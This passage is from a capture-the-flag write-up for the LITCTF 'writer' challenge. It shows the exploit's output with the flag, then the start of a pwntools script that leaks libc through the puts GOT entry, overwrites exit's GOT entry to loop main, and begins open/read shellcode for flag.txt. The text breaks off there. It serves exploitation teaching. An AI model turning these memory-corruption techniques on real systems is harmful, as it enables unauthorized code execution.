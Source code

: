 ```
[*] writing rop chain
[*] done writing rop chain
[*] Paused (press any to continue)
[*] Switching to interactive mode

You said:
\xd6\xf6\xd0\xd5\x99\x7f
LITCTF{g3n3r1c_fl4g_f0r_wr1t3r_bu7_m0r3_r4nd0m_s0_u_d0n7_gu3ss}
\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```

Flag: `LITCTF{g3n3r1c_fl4g_f0r_wr1t3r_bu7_m0r3_r4nd0m_s0_u_d0n7_gu3ss}`

## Full exploit code
```py
from pwn import *

context.arch = 'amd64'

ADDR_PUTS_GPLT = 0x404028
ADDR_EXIT_GPLT = 0x404060
ADDR_MAIN = 0x401264

#p = process("./writer")
p = remote("litctf.live", 31790)

p.recvuntil(b'where?\n')
p.sendline(str(ADDR_PUTS_GPLT).encode('utf-8'))
p.recvuntil(b'there:\n')
PUTS_LIBC = int(p.recv(1024).split(b'\n')[0].decode('utf-8')) & 0xffffffff
log.info("puts at: " + hex(PUTS_LIBC))
LIBC_BASE = PUTS_LIBC - 0x875a0 # https://libc.blukat.me/d/libc6_2.31-0ubuntu9_amd64.symbols
log.info("libc at: " + hex(LIBC_BASE))
assert(LIBC_BASE & 0xfff == 0)

log.info("getting infinite writes...")
p.sendline(str(ADDR_EXIT_GPLT).encode('utf-8'))
p.sendline(str(ADDR_MAIN).encode('utf-8'))
p.recvuntil(b'challenge?\n')
p.sendline(b'nobody asked')

pause()

p.recvuntil(b'where?\n')
p.sendline(str(ADDR_PUTS_GPLT+4).encode('utf-8'))
p.recvuntil(b'there:\n')
tophalf = int(p.recv(1024).split(b'\n')[0].decode('utf-8'))
LIBC_BASE = (tophalf << 32) + LIBC_BASE
log.info("libc at: " + hex(LIBC_BASE))
assert(LIBC_BASE & 0xfff == 0)
p.sendline(str(ADDR_EXIT_GPLT).encode('utf-8'))
p.sendline(str(ADDR_MAIN).encode('utf-8'))
p.recvuntil(b'challenge?\n')
p.sendline(b'nobody asked')

pause()

shellcode = b'flag.txt\x00' + asm("""  mov rdi, 0x404600;
 xor esi, esi;
 xor edx, edx;
 mov eax, 2;
 syscall ;
 mov edi, eax;
```